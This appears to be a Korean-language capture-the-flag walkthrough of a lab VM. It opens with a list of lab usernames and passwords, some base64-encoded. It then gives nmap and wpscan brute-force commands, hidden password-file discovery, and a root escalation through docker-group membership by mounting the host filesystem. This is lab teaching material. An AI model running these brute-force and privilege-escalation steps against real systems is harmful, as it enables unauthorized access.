 Wordpress
	firewall_admin - firework
	JY - archives
	JiH - articles
	JH - article
	MJ - archive
Linux
	root - firewallrootpassword
	JY - YXJjaGl2ZXM=
	JIH - YXJ0aWNsZXM=
	JH - YXJ0aWNsZQ==
	MJ - YXJjaGl2ZQ==
	linux_adnmin - 
		YWxpY2UJYWxpMTIxMgpib2IJcGFzc3dvcmQxMjMKY2hhcmxpZQlxd2VydHk0NTYKZGF2ZQlsZXRtZWluNzg5CkpZCWFyY2hpdmVzCkppSAlhcnRpY2xlcwpldmUJc2VjdXJlUGFzcyEKZnJhbmsJMTIzNDVhYmNkZQpncmFjZQlpbG92ZUN5YmVyQ2hlZgpoZWlkaQloZWxsb1dvcmxkOTkKSkgJYXJ0aWNsZQppdmFuCXNlY3JldF9rZXkKanVkeQlzdXBlclN0cm9uZ1B3ZApNSglhcmNoaXZl

# 1. 사전 탐색 (1 point)
`nmap victim IP` : 192.168.56.225(fixed), port 22/80/8080
`http://192.168.56.225/index.html` : html webpage
`http://192.168.56.225:8080` : wordpress -> wpscan 요구

# 2. wpscan (2 point)
`wpscan --url http://192.168.1.225:8080 --enumerate u,p` : User ID 확인
	![[Pasted image 20241010085016.png]]

첫 번째 포스트 CTF : ignite page sorce 확인
	![[Pasted image 20241010093329.png]]
	![[Pasted image 20241010085314.png]]

`wpscan --url http://192.168.56.225:8080 -U users.txt -P /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt` : ID/PW 확인	
	![[Pasted image 20241010092018.png]]

# 3. MJ(Chef Worker) 계정 로그인 (1 point)
#### wordpress MJ 계정 로그인
![[Pasted image 20241010092258.png]]
![[Pasted image 20241010092402.png]]

#### Linux MJ 계정 로그인
ID:MJ / PW:YXJjaGl2ZQ== ("archive" to Base64)

`ls -al` : 숨겨진 List Passcode 파일 - w\[=o%Cvtr7wb ("firewalld" to Ascii85)
	![[Pasted image 20241010101627.png]]

`ls -l /home` : home 폴더, 모든 폴더는 others가 읽고 실행 가능
	![[Pasted image 20241010101651.png]]

`ls -al /home/linux_admin` : linux_admin home 폴더, 숨겨진 PASSWORD 파일 
`cat /home/linux_admin/.PASSWORD` : "Linux Admin PW is made with all user's ID and PW"
	![[Pasted image 20241010101728.png]]

#### Protected: ID/PW List on wordpress
wordpress protected post : "firewalld" 입력
	![[Pasted image 20241010095049.png]]
	![[Pasted image 20241010095132.png]]
	![[Pasted image 20241010095218.png]]

"Linux Admin PW is made with all user's ID and PW" : 모든 ID/PW 복사 -> CyberChef(firefox)
	![[Pasted image 20241023115057.png]]


# 4. Linux_admin 계정 로그인 (3 point)
ID : linux_admin / PW : cyberchef 참고

`cat ignite_1_first_flag.txt` : linux_admin flag 확인
	![[Pasted image 20241010101832.png]]

# 5. Docker 취약점 확인 및 공격 (3 point)
`id linux_admin` : linux_admin ID 확인
	![[Pasted image 20241010101849.png]]

**Kali**
`docker pull alpine` : alpine docker image download
`docker save -o alpine_image.tar alpine` : alpine image 압축
`scp alpine_image.tar linux_admin@192.168.56.225:/home/linux_admin/` : ssh를 통해 alpine_image.tar 전송

**Linux_admin**
`docker load -i alpine_image.tar` : alpine image download
`docker images` : alpine images 확인
	![[Pasted image 20241010105715.png]]
`docker run -v /:/mnt -it alpine chroot /mnt sh` : docker image:alpine을 이용해 root 접속
	![[Pasted image 20241010105854.png]]

# 6. root 계정 / Flag (1 point)
![[Pasted image 20241010105937.png]]
